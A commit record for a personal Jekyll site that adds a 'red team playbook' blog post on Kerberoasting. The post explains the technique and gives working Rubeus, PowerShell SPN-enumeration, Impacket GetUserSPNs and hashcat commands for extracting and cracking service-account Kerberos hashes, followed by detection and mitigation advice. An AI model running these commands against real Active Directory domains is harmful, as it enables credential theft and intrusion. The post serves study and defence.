

Before and after one commit to louyyng/louyyng.github.io, a Jekyll site: the page built from _pages/year-archive.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; some of the changed lines change nothing that is shown.

Commit message:
playbook - kerberoasting

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -30,7 +30,7 @@ author:
   location         : "Earth"
   employer         : #""
   uri              : # URL
-  email            : "lou.yy.ng@gmail.com"
+  email            : #""
 
   # Academic websites
   academia         : # URL
--- a/_posts/2012-08-14-blog-post-1.md
+++ /dev/null
@@ -1,20 +0,0 @@
----
-title: 'Blog Post number 1'
-date: 2012-08-14
-permalink: /posts/2012/08/blog-post-1/
-tags:
-  - cool posts
-  - category1
-  - category2
----
-
-This is a sample blog post. Lorem ipsum I can't remember the rest of lorem ipsum and don't have an internet connection right now. Testing testing testing this blog post. Blog posts are cool.
-
-Headings are cool
-======
-
-You can have many headings
-======
-
-Aren't headings cool?
-------
--- /dev/null
+++ b/_posts/2025-09-23-kerberoasting.md
@@ -0,0 +1,128 @@
+---
+title: 'Kerberoasting'
+date: 2025-09-23
+permalink: /posts/kerberoasting/
+tags:
+  - red team playbook
+---
+
+# Kerberoasting
+
+| Tactic (MITRE ATT&CK) | Technique (MITRE ATT&CK)  | Objective                                          | Permissions Required          | Common Tools              |
+| --------------------- | ------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------- |
+| Credential Access     | T1558.003 - Kerberoasting | Getting service account's hash, and brute force it | Any Authenticated Domain User | Rubeus, Impacket, Hashcat |
+
+---
+
+## 1. Principle
+
+Kerberoasting targets to attack Windows Active Directory's service accounts.
+
+Properties of kerberos authentication:
+
+1.  **SPN (Service Principal Name):** In AD, there is an unique identifier (SPN) for MSSQL/HTTP/Service on a network that uses Kerberos authentication. It links a service to a specific user or computer account. For example: `MSSQLSvc/sqlserver.corp.local:1433`is a SPN. It is for telling AD that a machine`sqlserver.corp.local`is running port 1433 which is for MSSQL (service).
+2.  **Kerberos TGS:** A user with a valid Ticket Granting Ticket (TGT) can request a Ticket Granting Service (TGS) ticket for a specific service.
+3.  **Vulnerability:** Any authenticated user can request a TGS ticket, and the Key Distribution Center (KDC) doesn't validate if the user has permissions to access the service before issuing the ticket.
+4.  **Attack Process:**
+    - **Discovery:** Any domain user can query the SPN account in domain
+    - **Request:** Attackers can pretend they want to access the specific server and send a TGS request to KDC
+    - **Gain:** KDC would not verify do they authorized to access specific server. KDC will accept it if they are valid user in domain. Then, KDC will send you back the TGS.
+    - **Crack:** When the attacker get the TGS, they can export it and use hashcat to brute force.
+
+---
+
+
+
+## 2. Attack Steps & Commands
+
+### Method 1: Using Rubeus (in Windows target machine)
+
+**Step 1: Discover SPN's user**
+
+```powershell
+.\Rubeus.exe kerberoast /stats /nowrap
+```
+
+*   This command will list out all "Kerberoastable" information
+
+(Optional) If you can only use powershell
+
+```
+([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!samAccountName=krbtgt)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll() | ForEach-Object {
+    @{
+        SamAccountName = $_.Properties.samaccountname[0];
+        ServicePrincipalName = $_.Properties.serviceprincipalname
+    }
+}
+```
+
+**Step 2: Request and Export TGS ticket**
+
+```powershell
+# Dump all the service account's TGS hash and save it as txt
+.\Rubeus.exe kerberoast /outfile:hashes.txt
+```
+
+* Sample of `hashes.txt`：
+
+  ```
+  $krb5tgs$23$*service_account$CORP.LOCAL$MSSQLSvc/sql.corp.local*$...[hash]...
+  ```
+
+**Step 3: Cracking**
+
+*   Brute force the `hashes.txt` with Hashcat
+
+```bash
+hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt```
+*   `-m 13100` is the format of kerberos 5 TGS-REP etype 23
+```
+
+
+
+# Method 2: Use Impacket in Linux of MacOS (Attack Machine)
+
+If the attacker in the same network of domain
+
+*   `GetUserSPNs.py` can do the same work (Discovery and Request)
+
+
+
+```
+-request: Request TGS
+-dc-ip: Domain Controller's IP
+corp.local/low_priv_user:password : use DC user to authenicate
+
+python3 GetUserSPNs.py -request -dc-ip 192.168.1.10 corp.local/low_priv_user:Password123 -outputfile hashes.txt
+```
+
+**Step 3: Cracking**
+
+*   Same as Rubeus
+
+```bash
+hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
+```
+
+
+
+## 3. Defense & Mitigation
+
+### Detection
+
+1.  **Monitoring ID 4769:**
+    *   event ID should be: `A Kerberos service ticket was requested`. A normal user should not be requesting a lot of TGS ticket. It should be detected as suspicious.
+    *   Becareful that the `Service Name` is not  `krbtgt` and the `Ticket Encryption Type` should be `0x17` (RC4-HMAC)。It is easy to crack if using RC4 to encrypt.
+
+2.  **Packet Analysis:**
+    *   Some open source tools such as Zeek/Suricata. These ype of NIDS can monitor Kerberos traffic (Port 88)
+
+### Prevention
+
+1.  **Complex Password:**
+    *   Follow strong password policy, using a complex password.
+    *   **The best practice:** Use **Group Managed Service Accounts (gMSA)** [Kerberoasting-And-CyberAttack](https://petri.com/kerberoasting-ad-cyberattacks/)
+        *   The password from gMSA is managed by Windows. It will be rotated and strong.
+2.  **Principle of Least Privilege:**
+    - Ensure that only real service account has the permission of SPN
+    - Ensure that no high permission user such as domain admin to use as service account
````
